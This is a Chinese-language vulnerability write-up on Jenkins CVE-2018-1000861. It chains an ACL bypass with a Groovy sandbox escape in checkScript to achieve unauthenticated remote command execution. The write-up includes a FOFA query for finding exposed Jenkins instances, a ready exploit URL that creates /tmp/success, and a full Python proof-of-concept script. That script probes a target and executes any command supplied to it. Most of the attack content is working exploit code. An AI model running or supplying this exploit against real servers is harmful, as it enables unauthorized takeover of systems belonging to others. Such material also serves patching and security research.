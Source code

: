 # Jenkins checkScript 远程命令执行漏洞 CVE-2018-1000861

## 漏洞描述

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

## 漏洞影响

```
Jenkins version < 2.138
Jenkins build time < 2019-01-28
```

## FOFA

```
app="Jenkins"
```

## 漏洞复现

登录页面

![image-20220525163018864](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251630920.png)

使用 EXP 执行命令

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
```

![image-20220525163041244](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251630302.png)

成功创建`/tmp/success`

![image-20220525163103929](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251631975.png)

## 漏洞POC

```python
#!/usr/bin/python
# coding: UTF-8
# author: Orange Tsai(@orange_8361)
# 

import sys
import requests
from enum import Enum

# remove bad SSL warnings
try:
    requests.packages.urllib3.disable_warnings()
except:
    pass


endpoint = 'descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript'

class mode(Enum):
    ACL_PATCHED = 0
    NOT_JENKINS = 1
    READ_ENABLE = 2
    READ_BYPASS = 3
    ENTRY_NOTFOUND = 999

def usage():
    print '''
  Usage:
    python exp.py <url> <cmd>
    '''

def _log(msg, fail=False):
    nb = '[*]'
    if fail:
        nb = '[-]'
    print '%s %s' % (nb, msg)

def _get(url, params=None):
    r = requests.get(url, verify=False, params=params)
    return r.status_code, r.content

def _add_bypass(url):
    return url + 'securityRealm/user/admin/'

def check(url):
    flag, accessible = mode.ACL_PATCHED, False

    # check ANONYMOUS_READ
    status, content = _get(url)
    if status == 200 and 'adjuncts' in content:
        flag, accessible = mode.READ_ENABLE, True
        _log('ANONYMOUS_READ enable!')
    elif status == 403:
        _log('ANONYMOUS_READ disable!')

        # check ACL bypass, CVE-2018-1000861
        status, content = _get(_add_bypass(url))
        if status == 200 and 'adjuncts' in content:
            flag, accessible = mode.READ_BYPASS, True
    else:
        flag = mode.NOT_JENKINS

    # check entry point, CVE-2019-1003005
    if accessible:
        if flag is mode.READ_BYPASS:
            url = _add_bypass(url)
        status, content = _get(url + endpoint)

        if status == 404:
            flag = mode.ENTRY_NOTFOUND

    return flag

def exploit(url, cmd):
    payload = 'public class x{public x(){new String("%s".decodeHex()).execute()}}' % cmd.encode('hex')
    params = {
        'sandbox': True, 
        'value': payload
    }

    status, content = _get(url + endpoint, params)
    if status == 200:
        _log('Exploit success!(it should be :P)')
    elif status == 405:
        _log('It seems Jenkins has patched the RCE gadget :(')
    else:
        _log('Exploit fail with HTTP status [%d]' % status, fail=True)
        if 'stack trace' in content:
            for _ in content.splitlines():
                if _.startswith('Caused:'):
                    _log(_, fail=True)

if __name__ == '__main__':
    if len(sys.argv) != 3:
        usage()
        exit()

    url = sys.argv[1].rstrip('/') + '/'
    cmd = sys.argv[2]

    flag = check(url)
    if flag is mode.ACL_PATCHED:
        _log('It seems Jenkins is up-to-date(>2.137) :(', fail=True)
    elif flag is mode.NOT_JENKINS:
        _log('Is this Jenkins?', fail=True)
    elif flag is mode.READ_ENABLE:
        exploit(url, cmd)
    elif flag is mode.READ_BYPASS:
        _log('Bypass with CVE-2018-1000861!')
        exploit(_add_bypass(url), cmd)
    else:
        _log('The `checkScript` is not found, please try other entries(see refs)', fail=True)
```